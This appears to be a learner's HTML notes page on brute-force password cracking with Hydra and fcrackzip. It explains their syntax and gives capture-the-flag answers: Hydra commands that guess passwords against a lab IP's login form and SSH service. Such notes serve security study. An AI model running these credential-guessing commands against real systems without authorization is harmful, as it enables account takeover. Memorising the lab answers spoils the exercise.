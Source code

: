 <h2>Brute Force</h2>
<ul>Remote access protocols related:
  <li>SSH: Secure Shell. Remote login. It provides the user with a command-line interface (CLI) that can be used to execute commands.</li>
  <li>RDP: Remote Desktop Protocol; it is also known as Remote Desktop Connection (RDC) or simply Remote Desktop (RD). It provides a graphical user interface (GUI) to access an MS Windows system.</li>
  <li>VNC: Virtual Network Computing. It provides access to a graphical interface which allows the user to view the desktop and (optionally) control the mouse and keyboard. VNC is available for <b>any system</b> with a graphical interface, including MS Windows, Linux, and even macOS, Android and Raspberry Pi.</li>
</ul>
<h3>Hydra</h3>
<p>
  Compatible protocols:
  <ul>
    <li>Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.</li>
  </ul>
  Standard format: <b>hydra -l username -P wordlist.txt server service -V</b>
  <ul>
    <li><b>-l username:</b> -l should precede the username, you should omit this option if the service does not use a username.</li>
    <li><b>-P wordlist.txt:</b> file or path to the list of passwords you want to try with the provided username. (Rockyou.txt)</li>
    <li><b>server</b> is the hostname or IP address of the target server.</li>
    <li><b>service</b> indicates the service in which you are trying to launch the dictionary attack. Such as <b>rdp, vnc, ftp, pop3 or any other protocol</b> supported by Hydra. Check list of compatible protocols</li>
    <li>Exemple: hydra -l mark -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh   or   hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP</li>
  </ul>
  Options you can use:
  <ul>
  <li>-V or -vV, for verbose, makes Hydra show the username and password combinations being tried.</li>
  <li>-d, for debugging, provides more detailed information about what’s happening. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this immediately.</li>
  </ul>
  <h3>Cheatsheat</h3>
  https://github.com/frizb/Hydra-Cheatsheet<br>
</p>
<h2>Hydra Room</h2>
<p>
  Flag 1:<br>
  hydra -l molly -P Documentos/rockyou_20_12_2022.txt 10.10.38.247 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V<br>
  Flag 2:<br>
  hydra -l molly -P Documentos/rockyou_20_12_2022.txt 10.10.38.247 ssh -V<br>
</p>
<h2>ZIP files</h2>
<p>
<h3>fcrackzip</h3>
syntax bruteforce: <i>fcrackzip -b target.zip -u -c a1 -l 'length'</i><br>
<ul>
  <li>fcrackzip – Selecting the tool we want to use.</li>
  <li>-b – Selecting the option for a brute-force attack.</li>
  <li>target.zip is the target</li>
  <li>-u – This makes sure fcrackzip actually tries to unzip the file, without this we won’t actually get the right password.</li>
  <li>-c – This is where we pick the characters we want to use in our dictionary attack. In this example we’re using ‘a’ which represents lowercase letters, and ‘1’ which represents numbers 0-9.</li>
  <li>-l – This is where we state the length of the password we want to crack. If we know the password is between 4 and 6 characters, we would use "-l 4-6".</li>
</ul>
syntax diccionary attack: <i> fcrackzip -D -u -p /path/to/file/rockyou.txt target.zip</i><br>
<ul>
  <li>fcrackzip – Selecting the tool we want to use.</li>
  <li>-D – Selecting the option for a dictionary attack.</li>
  <li>-p – Use strings as password.</li>
  <li>-/path/to/file/rockyou.txt – path to the dictionary list.</li>
  <li>target.zip is the target</li>
</ul>
cheat sheat fcrackzip: https://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html<br>
</p>
